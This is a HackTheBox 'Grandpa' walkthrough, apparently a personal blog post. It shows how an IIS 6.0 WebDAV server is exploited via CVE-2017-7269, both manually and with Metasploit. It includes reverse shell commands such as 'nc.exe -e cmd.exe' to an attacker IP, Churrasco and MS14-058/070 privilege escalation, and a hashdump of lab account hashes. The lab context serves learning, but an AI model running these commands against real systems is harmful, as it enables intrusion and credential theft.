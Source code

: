 ```yaml
---
title: Grandpa Writeup
date: 2021-12-31
categories: [Writeup, HackTheBox]
tags: hackthebox OSCP WriteUp Windows Windows2003 WebDAV TJNULLsList MS14-058 MS14-070
image:
  src: /assets/Images-03-Grandpa/Grandpa-infocard.png
  width: 497px   # in pixels
  height: 317px   # in pixels
  alt: image alternative text
---
```

> In this writeup I have pwned Grandpa from hackthebox with manual exploit and metasploit exploit. Target was vulnerable with CVE-2017-7269.

### Enumeration
#### rustscan
```bash
rustscan --accessible --ulimit 5000 -a 10.129.179.235 -- -p-
```
![](/assets/Images-03-Grandpa/2022-01-01-16-56-34.png)
_rustscan results_

#### nmap
```bash
sudo nmap -Pn -oN grandpa -A -O -p 80 10.129.179.235
```
![](/assets/Images-03-Grandpa/2022-01-01-17-02-05.png)
_nmap results_

#### davtest | web
```bash
davtest --url http://10.129.179.235/
```
![](/assets/Images-03-Grandpa/2022-01-01-17-08-36.png)
_davtest results_

#### gobuster | web
```bash
gobuster dir -u http://10.129.179.235/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![](/assets/Images-03-Grandpa/2022-01-01-19-07-26.png)
![](/assets/Images-03-Grandpa/2022-01-01-19-04-12.png)
_gobuster results_

Target running
- **OS** : Microsoft Windows 2003
`Microsoft-IIS/6.0` with extension of `WebDAV`. Almost all the http methods are allowed.
- There was no write permissions on target web root directory.
- Gobuster didn't gave anything useful. It just gave authenticated redirection.

### Exploitation
Target is vulnerable to [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269).
For exploitation we can use exploit code from [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) repository.
Set-up ncat listener and run the exploit like below.
```bash
rlwrap nc -lvnp 1337

# python exploit.py <target_ip> <port> <attacker_ip> <port>
python exploit.py 10.129.179.235 80 10.10.17.81 1337
```
![](/assets/Images-03-Grandpa/2022-01-01-17-31-07.png)
_user shell_
**`And we get a shell with network account privilege.`**

### Post Exploitation
On checking current user privileges we got confirmation we can **`impersonate privileges`**.
```bash
whoami /priv
```
![](/assets/Images-03-Grandpa/2022-01-01-19-15-21.png)
_whoami /priv_

As Token Impersonation is enabled and target is Microsoft Windows 2003. Priv Esc is possible with
[Churrasco](https://github.com/Re4son/Churrasco/). `certutil` was not working properly so binary transfer was done using smbserver.
```bash
sudo smbserver.py a bins # at binary location
```
![](/assets/Images-03-Grandpa/2022-01-01-19-18-52.png)
_file transfer_

**`Churrasco`** also requires `ncat`. So it had to be transferred too.
Before execution nc listener is required at attacker machine end.
```bash
rlwrap nc -lvnp 9001 # attacker machine

churrasco.exe -d ".\nc.exe -e cmd.exe 10.10.17.81 9001" # victim machine
```
**`And we get a shell with highest privilege.`**
![](/assets/Images-03-Grandpa/2022-01-01-19-21-14.png)
_churrasco priv esc_

---

### Exploitation | Metasploit
With previous enumeration we confirmed target was vulnerable with CVE-2017-7269. Searchsploit didn't gave results. So on searching CVE in **`msfconsole`** we got 1 exploit.
```bash
msf6 > search 2017-7269

exploit/windows/iis/iis_webdav_scstoragepathfromurl
```

![](/assets/Images-03-Grandpa/2022-01-01-19-36-43.png)
_searching exploit_

With below one liner we can exploit target with Metasploit module and get meterpreter shell.
```bash
msfconsole -q -x "use exploit/windows/iis/iis_webdav_scstoragepathfromurl; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.180.7; run;"
```
![](/assets/Images-03-Grandpa/2022-01-01-19-35-34.png)
_meterpreter user shell_

### Post Exploitation | Metasploit
`getuid` failed as we got shell with unstable process. We have migrate this to another stable process for further exploitation.
```bash
meterpreter > getuid
[-] 1055: Operation failed: Access is denied.

meterpreter > ps
  ...
meterpreter > migrate 1924
```
After migration now we have stable meterpreter shell with network account privilege.
![](/assets/Images-03-Grandpa/2022-01-01-19-40-19.png)
_process migration_

For priv esc we can use **`local_exploit_suggester`**
![](/assets/Images-03-Grandpa/2022-01-01-19-51-30.png)
_local exploit suggester_

It gave multiple results. Selecting 2nd from top as 1st exploit could not be validated.
Using **`windows/local/ms14_058_track_popup_menu`**
![](/assets/Images-03-Grandpa/2022-01-01-19-54-53.png)
_MS14-058 priv esc_

`getuid` and `ps` didn't worked first time. After running `shell` and after going back to meterpreter it gave expected response.

**`And finally we get a shell with highest privilege.`**
![](/assets/Images-03-Grandpa/2022-01-01-19-55-45.png)
_MS14-058 priv esc_

Priv esc was also successful on trying another exploit **`windows/local/ms14_070_tcpip_ioctl`**
![](/assets/Images-03-Grandpa/2022-01-01-20-26-46.png)
_MS14-070 priv esc_

**`It gave stable shell with highest privilege.`**

Collecting all hashes after final compromise.
```hash
meterpreter > hashdump
Administrator:500:0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Harry:1008:93c50499355883d1441208923e8628e6:031f5563e0ac4ba538e8ea325479740d:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
```

---

#### Failures and Learnings

```bash
searchsploit "Microsoft IIS 6.0"
searchsploit -m "windows/remote/41738.py"
```
Tried to use `Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow | windows/remote/41738.py` as this seemed reliable for moment. But it didn't worked.

![](/assets/Images-03-Grandpa/2022-01-01-20-46-35.png)
_41738 failed_

---

Using [explodingcan](https://github.com/danigargu/explodingcan)

It didn't worked for `nc shell`. It worked for developer with meterpreter shell but I wanted to avoid meterpreter.
![](/assets/Images-03-Grandpa/2022-01-01-21-04-13.png)
_explodingcan results_


Finally I used [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) repo and it worked.
Even it had 48 stars in github which seems unreliable for this vulnerability.

---

meterpreter's `getsystem` will not always work even if 
`SeImpersonatePrivilege` is set to true.

![](/assets/Images-03-Grandpa/2022-01-01-19-43-09.png)
_getsystem failed_

---
